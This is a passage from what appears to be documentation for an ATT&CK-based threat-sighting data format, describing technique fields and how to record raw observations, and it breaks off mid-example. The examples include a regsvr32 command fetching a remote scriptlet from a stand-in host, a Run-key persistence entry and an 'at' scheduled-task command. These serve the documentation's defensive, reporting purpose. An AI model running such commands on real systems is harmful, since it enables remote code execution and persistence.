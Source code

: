|attribution                                       |String                                          |The name of the threat group, incident/campaign, or software associated to this activity. This should ideally be an exact name from the list of [Group Names or Associated Groups](https://attack.mitre.org/groups/) already in ATT&CK for threat groups, and of [Software Names or Associated Software](https://attack.mitre.org/software/) already in ATT&CK for malicious software.
|  techniques                                      |List[[Technique](#technique)]    |The list of techniques that were observed (see technique table below). This is **required** for software not already in ATT&CK.

<br>
#### <a class="anchor" name="technique"></a>technique

| Field                 | Datatype              | Description           |
|-----------------------|-----------------------|-----------------------|
|**techniqueID***       | String                | The ATT&CK ID (e.g., "T1086") that was observed.
| platform              | String                | The platform this technique was observed on. Please include the full name, edition, and version. E.g., "Windows 10 Enterprise", "Windows Server 2012 Standard", "MacOS 10.13.5", "Ubuntu 14.04".
| startTime             | Timestamp             | The time that this specific technique was observed.
| endTime               | Timestamp             | The time that this specific technique sighting ended.
| tactic                | String                | The name of the tactic that this technique was used to enable. For example, a sighting of Scheduled Task could indicate whether it was used for privilege escalation or for persistence. Format should be the technique name as referenced in ATT&CK navigator layer file format (lowercase dashed, credential-access).
| rawData               | List\[data\]          | The list of raw data, if sharable, to support this observation. Could be command lines, event records, etc. Format this as described below.|

<br>
##### Formatting raw data

Each object in the list of raw data should consist of an object from the [CAR data model](https://car.mitre.org/data_model/) in the form "object.action": {"field": "value"}.

For example:

**Command Line**:
```
"process.create": {"command_line": "regsvr32.exe /i:hxxp://lolbad.com scrobj.dll"}
```

**Registry Key**:
```
"registry.add": {
    "hive": "HKEY_CURRENT_USER",
    "key": "\Software\Microsoft\Windows\CurrentVersion\Run",
    "value": "bad.exe"
}
```

More complete examples are also below. If something isn't expressible in the CAR data model as-is, just make up and object and action that makes sense to you and we'll figure it out.
<br><br>
## Examples

#### Simple Technique Sighting
A managed service provider monitors sensor data across its customer base. During that monitoring, an analytic flags a Sysmon process event that indicates a scheduled task is being created using "at".

```
{
  "id": "DT-1234",
  "sightingType": "direct-technique-sighting",
  "startTime": "2019-01-01T08:12:00Z",
  "endTime": "2019-01-01T08:12:00Z",
  "detectionType": "human-validated",
  "techniques": [
    {
      "techniqueID": "T1088",
      "startTime": "2019-01-01T08:12:00Z",
      "endTime": "2019-01-01T08:12:00Z",
      "platform": "Windows 10",
      "rawData": [
        "process.create": {"command_line": "at 13:30 /interactive cmd"}
```